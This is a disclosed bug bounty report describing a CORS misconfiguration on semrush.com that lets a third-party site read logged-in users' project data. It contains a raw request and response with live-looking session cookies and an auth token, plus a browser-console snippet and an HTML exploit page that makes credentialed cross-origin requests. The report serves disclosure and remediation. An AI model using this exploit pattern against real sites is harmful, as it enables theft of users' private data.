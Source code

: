 # Cross-origin resource sharing misconfig | steal user information 

## Report Details
- **Report ID**: 235200
- **URL**: https://hackerone.com/reports/235200
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-06-01T01:44:03.428Z
- **Disclosed**: 2017-12-17T01:33:19.703Z

## Reporter
- **Username**: bughuntermate
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: semrush

## Vulnerability Information
Man, treat you another drink.


## Description

An HTML5 cross-origin resource sharing (CORS) policy controls whether and how content running on other domains can perform two-way interaction with the domain that publishes the policy. The policy is fine-grained and can apply access controls per-request based on the URL and other features of the request.
Trusting arbitrary origins effectively disables the same-origin policy, allowing two-way interaction by third-party web sites. Unless the response consists only of unprotected public content, this policy is likely to present a security risk.
If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information. Even if it does not, attackers may be able to bypass any IP-based access controls by proxying through users' browsers.

##POC1
**Request**
```
GET /organic-traffic-insights/api/rest/1.2/users/███/projects?_=1496248656402 HTTP/1.1
Host: www.semrush.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Referer: https://www.semrush.com/projects/
X-Requested-With: XMLHttpRequest
Cookie: wp13557="UWYYADs-TTTW:WWLHWYDtlnDl-TJIH-UYUTDDDIALHUZDLZTAHTIV-CCAY-XMLT-IUUA-UYUBWXWZACCWDlLtkNlo_Jht"; ref_code=__default__; usertype=Free-User; marketing=%7B%22user_cmp%22%3A%22%22%2C%22user_label%22%3A%22%22%7D; localization=%7B%22locale%22%3A%22en%22%2C%22db%22%3A%22sg%22%7D; db_date=current; userdata=%7B%22tz%22%3A%22GMT+8%22%2C%22ol%22%3A%22en%22%7D; _ga=GA1.2.412244322.1496213122; _gid=GA1.2.1937633003.1496213122; visit_first=1496213122000; __uvt=; uvts=65OAcWY4QhJHESTs; referer_purchase=https%3A%2F%2Fes.semrush.com%2Fdashboard%2F; sct:feedback:show=false; __insp_uid=2126149429; temp_db_but=sg; db=us; exp_feature_popup_closed=yes; about_sessionid=gue5yj2t8bmucnlwuv1y1cxilq7a7q8g; about_csrf=i6C8isOR7WLuVa1348FSsPH6rXzVEQSr; n_userid=LuWhoFku7Ou4q2PeBHIUAg==; __zlcmid=gngUE7HFajaRsy; _bizo_bzid=ec0d2554-575b-420b-b404-51b70939ec49; _bizo_cksm=34222E182676EC07; _bizo_np_stats=155%3D338%2C; auth_token=CMFMT27JhWR9cnbkoV1dHvFaxc4tQ3f0B4IAw5BfTOjyeKeF9FKx8w2kpiLl; __insp_wid=1632961932; __insp_slim=1496248714271; __insp_nv=false; __insp_targlpu=aHR0cHM6Ly93d3cuc2VtcnVzaC5jb20vcHJvamVjdHMvIzgwMDEyMi92aWV3Lw%3D%3D; __insp_targlpt=U0VNcnVzaA%3D%3D; __insp_norec_howoften=true; __insp_norec_sess=true; org.springframework.web.servlet.i18n.CookieLocaleResolver.LOCALE=en; connect.sid=s%253A4cV9yXJcfQFXmC65JJn3KSP6Wp184s10.vGOEA1%252BgVTXbwDY4YSOkOjjnteLNyifmcQdJh8XZckI; _gat=1; _uetsid=_uetd1ba382c; JSESSIONID=4423D9EF5D5BEE794094AC0713E9EE8E; _gat_UA-6197637-22=1
Connection: close
Origin: https://itqayzlbkshw.com
```

**Response**
```
HTTP/1.1 200 
Server: nginx
Date: Thu, 01 Jun 2017 01:36:26 GMT
Content-Type: application/json;charset=UTF-8
Content-Length: 884
Connection: close
Access-Control-Allow-Origin: https://itqayzlbkshw.com
Vary: Origin
Access-Control-Allow-Credentials: true
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubdomains; preload
X-Frame-Options: SAMEORIGIN

[{"key":"███","projectId":"800122","projectName":"dfsfsda","status":"NOT_AUTHORISED","authoriseUrl":"https://accounts.google.com/o/oauth2/auth?access_type=offline&approval_prompt=force&client_id=1093302022032-p190dsgnrdoavgstsem5i2pom6t9il6r.apps.googleusercontent.com&redirect_uri=http://gat.semrush.com/api/rest/1.2/auth&response_type=code&scope=https://www.googleapis.com/auth/analytics.readonly%20https://www.googleapis.com/auth/webmasters.readonly&state=█████████_800122_%5B%22https://www.googleapis.com/auth/analytics.readonly%22,%22https://www.googleapis.com/auth/webmasters.readonly%22%5D","email":null,"accounts":null,"account":null,"property":null,"view":null,"url":null,"siteUrls":null,"siteUrl":null,"database":"us","device":"desktop","totals":null,"created":null,"accountName":null,"propertyName":null,"viewName":null}]
```

Take note from request I inject a header Origin: https://itqayzlbkshw.com then from response it returns Access-Control-Allow-Origin: https://itqayzlbkshw.com. Which mean there is CORS misconfig here.

##POC 2
1. open https://example.com in browser then inspect the page and go to console.
2. run the following code in console and you would find it pops up user information
```
var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://www.semrush.com/organic-traffic-insights/api/rest/1.2/users/████/projects?_=1496248656402',true); req.withCredentials = true; req.send('{}'); function reqListener() { alert(this.responseText); };
```


##Exploit
```
<html>
<script>
var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://www.semrush.com/organic-traffic-insights/api/rest/1.2/users/███/projects?_=1496248656402',true); req.withCredentials = true; req.send('{}'); function reqListener() { alert(this.responseText); };
</script>
</html>
```

Open above code in any browser and you would find it pops up user information like the attachment.

##Comment
Attacker would treat many victims to visit attacker's website, if victim is logged in, then his personal information is recorded in attacker's server

## How to fix 
Rather than using a wildcard or programmatically verifying supplied origins, use a whitelist of trusted domains.



 

## Attachments
- cors.PNG
